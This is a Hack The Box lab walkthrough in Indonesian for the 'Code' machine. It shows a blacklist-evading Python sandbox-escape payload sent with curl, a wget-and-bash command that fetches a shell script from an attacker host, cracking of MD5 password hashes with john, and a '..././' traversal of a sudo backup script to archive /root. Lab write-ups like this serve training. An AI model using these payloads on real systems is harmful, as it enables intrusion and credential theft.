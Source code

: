 ```yaml
---
layout: post
title: "HTB Writeup – Code"
date: 2025-06-23
image: /assets/machine/code/code.jpg
tags: [htb, linux]
excerpt: "Exploit SSTI or PyJail."
---
```


<center>
<img src="/assets/machine/code/code.jpg" class="img-post" />
</center>

# Recon

## Port Scan

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
```

Kita bisa lihat kalo ada web dengan port 5000 yang berjalan.


# User

## app-production

<center>
<img src="/assets/machine/code/web_code.jpg" class="img-post" />
</center>

Di web tersebut kita bisa menjalankan code python yang kita inginkan, namun untuk function yang biasa digunakan untuk RCE kemungkinan besar di blacklist, sehingga kita harus bypass nya.

> [Jinja2 SSTI](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html)

Ditambah dengan tanda "+" untuk melakukan bypass terhadap blacklist.

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("ls /").re'+'ad()'))
```

Selain langsung melalu web, kita bisa menggunalan curl untuk mengirimkan code.


Pertama kita check website menggunakan curl.

```bash
curl http://10.10.11.62:5000
```

Kita mendapatkan endpoint **/run_code**:

```php
$.post('/run_code', {code: code}, function(data) {
    document.getElementById('output').textContent = data.output;
});
```

Kirimkan menggunakan curl dan gunakan --data-urlencode biar curl encode otomatis.

```bash
curl -X POST http://10.10.11.62:5000/run_code   -H "Content-Type: application/x-www-form-urlencoded"   --data-urlencode $'code=obj = globals()["__buil" + "tins__"][\'ev\' + \'al\']\nresult = obj(\'__imp\' + \'ort__("o\' + \'s").pop\' + \'en("ls").rea\' + \'d()\')\nprint(result)'
```

<center>
<img src="/assets/machine/code/curl.png" class="img-post" />
</center>

Sekarang kita lakukan RCE ke target.

```bash
curl -X POST http://10.10.11.62:5000/run_code \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode $'code=print(\'\'.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__[\'__buil\' + \'tins__\'][\'ev\' + \'al\'](\'__imp\' + \'ort__("o\' + \'s").po\' + \'pen("wget 10.10.xx.xx:1412/shell.sh -O /tmp/shell.sh").re\' + \'ad()\'))\nprint(\'\'.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__[\'__buil\' + \'tins__\'][\'ev\' + \'al\'](\'__imp\' + \'ort__("o\' + \'s").po\' + \'pen("bash /tmp/shell.sh").re\' + \'ad()\'))
```

<center>
<img src="/assets/machine/code/shell.png" class="img-post" />
</center>


Flag user ada di direktori home user ini.

## Martin

Ada file database.db di app/instance yang menggunakan sqlite3.

```sql
SQLite version 3.49.1 2025-02-18 13:38:58                                        Enter ".help" for usage hints.
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

Crack menggunakan john

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
nafeelxxxxxxxxxxx (?)
```

Login menggunakan SSH dengan kredensial yang diatas.

# Root

Jalankan **sudo -l**

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

Cek file **/usr/bin/backy.sh**

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Dari code diatas kita tahu bahwa:

1. Mengecek input file JSON (task.json)
2. Melakukan sanitasi direktori (../ dihapus)
3. Memastikan bahwa semua direktori yang akan diarsipkan berada di dalam */var/* atau */home/*
4. Jika berhasil melakukan itu semua, maka backy akan melakukan bakcup.

Kita bypass **../** dengan membuat double.

```json
{
  "directories_to_archive": [
    "/home/..././root/" 
  ],
  "destination": "/tmp"
}
```

Lalu jalankan.

**sudo /usr/bin/backy.sh task.json**

Lalu extract backup yang sudah kita buat di folder /tmp

<center>
<img src="/assets/machine/code/root.jpg" class="img-post" />
</center>

Tentu kita juga bisa dapetin **id_rsa** nya.

Rooted.